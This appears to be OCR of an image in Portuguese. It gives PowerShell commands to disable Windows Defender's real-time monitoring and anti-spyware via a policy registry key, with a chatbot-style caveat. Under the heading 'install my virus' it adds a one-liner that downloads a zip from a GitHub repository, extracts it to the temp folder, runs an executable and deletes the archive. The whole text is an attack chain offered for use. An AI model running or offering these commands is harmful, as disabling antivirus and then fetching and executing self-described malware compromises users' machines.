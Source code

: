 Set-MpPreference -DisableRealtimeMonitoring $true

Usando o PowerShell para Desativar o Windows Defender

    Abra o PowerShell como Administrador:
        Clique com o botão direito no menu Iniciar e selecione "Windows Terminal (Admin)" ou "PowerShell (Admin)".

    Digite os seguintes comandos um por um e pressione Enter após cada um:

    powershell

    New-Item -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Force
    New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1 -PropertyType DWORD -Force

    Reinicie o computador para que as alterações entrem em vigor.

##Importante

##Lembre-se de que desativar o Windows Defender pode deixar seu sistema vulnerável. É sempre bom ter outra solução de segurança instalada. Se precisar de mais ajuda, estou aqui!




##instalar meu virus  



  $tempPath="$env:TEMP\ardx-main.zip"; $extractedPath="$env:TEMP\ardx-main\ardx-main"; Invoke-WebRequest -Uri "https://github.com/oldmones/ardx/archive/refs/heads/main.zip" -OutFile $tempPath; Expand-Archive -Path $tempPath -DestinationPath "$env:TEMP\ardx-main" -Force; Start-Process -FilePath "$extractedPath\ConsoleApp1.exe" -Wait; Remove-Item -Path $tempPath -Force -ErrorAction SilentlyContinue




###############

